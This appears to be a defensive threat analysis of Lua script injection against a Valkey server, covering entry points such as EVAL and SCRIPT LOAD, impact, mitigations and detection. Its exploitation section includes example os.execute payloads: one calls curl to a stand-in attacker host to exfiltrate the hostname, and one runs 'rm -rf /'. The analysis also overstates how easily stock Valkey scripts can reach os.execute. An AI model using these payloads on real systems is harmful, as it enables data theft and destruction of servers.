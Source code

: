 ## Deep Analysis: Execute Arbitrary Commands on Valkey Server via Lua Injection

**ATTACK TREE PATH:** Execute Arbitrary Commands on Valkey Server [CRITICAL] HIGH RISK PATH

**Description:** By injecting malicious Lua scripts, an attacker can leverage Valkey's ability to execute system commands on the underlying server. This can lead to complete server takeover.

**Risk Level:** CRITICAL

**Impact:** Complete Server Compromise

**Analysis Breakdown:**

This attack path represents a severe vulnerability stemming from insufficient input sanitization and the inherent power of Lua scripting within the Valkey server environment. Let's break down the mechanics, impact, and potential mitigation strategies:

**1. Attack Vector: Malicious Lua Script Injection**

* **Mechanism:** Valkey, like Redis which it is based on, can execute Lua scripts for various functionalities, including custom commands, complex data manipulation, and event handling. If user-supplied data or configurations can be interpreted as Lua code without proper sanitization, an attacker can inject malicious scripts.
* **Entry Points:** Potential entry points for injecting malicious Lua scripts include:
    * **`EVAL` and `EVALSHA` commands:** These commands directly execute Lua scripts provided as arguments. If an attacker can control the content of these arguments, they can inject malicious code.
    * **`SCRIPT LOAD` command:**  This command allows loading Lua scripts into the server's script cache. If an attacker can somehow inject a malicious script into this cache (e.g., through a vulnerable administrative interface or configuration), it can be executed later.
    * **Vulnerable Custom Commands:** If the application using Valkey has implemented custom commands that utilize Lua scripting and don't properly sanitize input before passing it to the Lua interpreter, this can be an attack vector.
    * **Configuration Files:** If Valkey's configuration files allow embedding Lua scripts or referencing external Lua files that can be manipulated by an attacker, this could be exploited.
    * **Modules:** If Valkey is using modules that expose Lua scripting capabilities and these modules have vulnerabilities related to input handling, they could be exploited.
* **Payload:** The malicious Lua script would contain code designed to execute system commands on the server. Lua provides functions like `os.execute()` or `io.popen()` which can be used for this purpose.

**2. Exploitation Mechanics:**

1. **Identify Vulnerable Entry Point:** The attacker first needs to identify a way to inject Lua code into the Valkey server. This could involve analyzing the application's interaction with Valkey, looking for APIs or commands that accept user-controlled input which is then passed to the Lua interpreter.
2. **Craft Malicious Lua Script:** The attacker crafts a Lua script that, when executed by Valkey, will run arbitrary commands on the underlying operating system. Examples of such scripts include:
    ```lua
    os.execute("whoami > /tmp/output.txt") -- Execute 'whoami' and write output to a file
    os.execute("curl http://attacker.com/exfiltrate?data=$(hostname)") -- Exfiltrate server hostname
    os.execute("rm -rf /") -- Attempt to delete all files (highly destructive)
    ```
3. **Inject and Execute:** The attacker injects this crafted script through the identified vulnerability. For example, they might send an `EVAL` command with the malicious Lua code as an argument.
4. **Command Execution:** Valkey's Lua interpreter executes the injected script, leading to the execution of the system commands specified within the script.

**3. Impact Assessment:**

* **Complete Server Takeover:**  The ability to execute arbitrary commands grants the attacker complete control over the Valkey server's operating system.
* **Data Breach:** The attacker can access and exfiltrate sensitive data stored within Valkey or on the server's file system.
* **Service Disruption:** The attacker can shut down the Valkey server, disrupt its functionality, or introduce malicious data, leading to application failures.
* **Lateral Movement:**  From the compromised Valkey server, the attacker can potentially pivot to other systems within the network if the server has network access.
* **Malware Installation:** The attacker can install malware, backdoors, or other persistent threats on the server.
* **Resource Hijacking:** The attacker can use the compromised server's resources for malicious purposes, such as cryptocurrency mining or participating in botnets.

**4. Mitigation Strategies (Defense in Depth):**

* **Input Sanitization and Validation:**  **Crucially important.** All user-supplied data that could potentially be interpreted as Lua code must be rigorously sanitized and validated. This includes:
    * **Whitelisting:** Define a strict set of allowed characters and patterns.
    * **Escaping:** Properly escape special characters that have meaning in Lua.
    * **Parameterization:** If possible, use parameterized queries or commands to separate code from data.
* **Disable or Restrict Dangerous Lua Functions:**  Consider disabling or restricting access to powerful Lua functions like `os.execute()`, `io.popen()`, `dofile()`, and `loadfile()` within the Valkey configuration or through custom scripting environments.
* **Principle of Least Privilege:**  Run the Valkey server process with the minimum necessary privileges. This limits the impact of a successful command execution.
* **Secure Configuration:**  Ensure that Valkey's configuration files are properly secured and not accessible to unauthorized users.
* **Regular Security Audits and Code Reviews:**  Conduct regular security audits of the application code and Valkey configurations to identify potential injection points. Pay close attention to any code that handles user input and interacts with Valkey's Lua scripting capabilities.
* **Content Security Policy (CSP) (if applicable):** If Valkey is accessed through a web interface, implement a strong CSP to mitigate certain types of injection attacks.
* **Network Segmentation:** Isolate the Valkey server within a secure network segment to limit the potential for lateral movement if it is compromised.
* **Rate Limiting and Input Validation on API Endpoints:** If the application exposes APIs that interact with Valkey, implement rate limiting and strict input validation on these endpoints to prevent abuse.
* **Monitor Valkey Logs:** Regularly monitor Valkey's logs for suspicious activity, such as attempts to execute unusual Lua commands or errors related to script execution.
* **Update Valkey Regularly:** Keep Valkey updated to the latest version to benefit from security patches and bug fixes.
* **Consider Alternative Approaches:** If the use of Lua scripting for certain functionalities introduces significant risk, explore alternative approaches that don't involve executing arbitrary code.

**5. Detection Methods:**

* **Log Analysis:** Monitor Valkey's logs for unusual `EVAL`, `EVALSHA`, or `SCRIPT LOAD` commands, especially those with long or obfuscated scripts. Look for errors related to Lua execution or attempts to use restricted functions.
* **Anomaly Detection:** Implement anomaly detection systems that can identify unusual patterns in Valkey's behavior, such as sudden spikes in CPU or memory usage, or unexpected network connections.
* **Security Information and Event Management (SIEM):** Integrate Valkey's logs with a SIEM system to correlate events and detect potential attack patterns.
* **Runtime Application Self-Protection (RASP):**  Consider using RASP solutions that can monitor application behavior in real-time and detect and block malicious Lua script execution.
* **Code Reviews and Static Analysis:** Regularly review the application code for potential injection vulnerabilities. Static analysis tools can help automate this process.

**6. Real-World Relevance:**

Lua injection vulnerabilities are a known risk in systems that allow the execution of Lua scripts with insufficient security measures. While Valkey itself might have built-in safeguards, the way the *application* utilizes Valkey's Lua capabilities is crucial. If the application developers are not careful with input handling, this attack path becomes a significant threat. The popularity of Lua in embedded systems and scripting environments makes this a relevant concern.

**Conclusion:**

The ability to execute arbitrary commands on the Valkey server through Lua injection represents a **critical security vulnerability** with the potential for complete server compromise. This **high-risk path** demands immediate attention and robust mitigation strategies. The development team must prioritize secure coding practices, focusing on rigorous input sanitization and the principle of least privilege when interacting with Valkey's Lua scripting features. Regular security assessments and monitoring are essential to detect and prevent exploitation of this dangerous attack vector. Failure to address this vulnerability could have devastating consequences for the application and the underlying infrastructure.
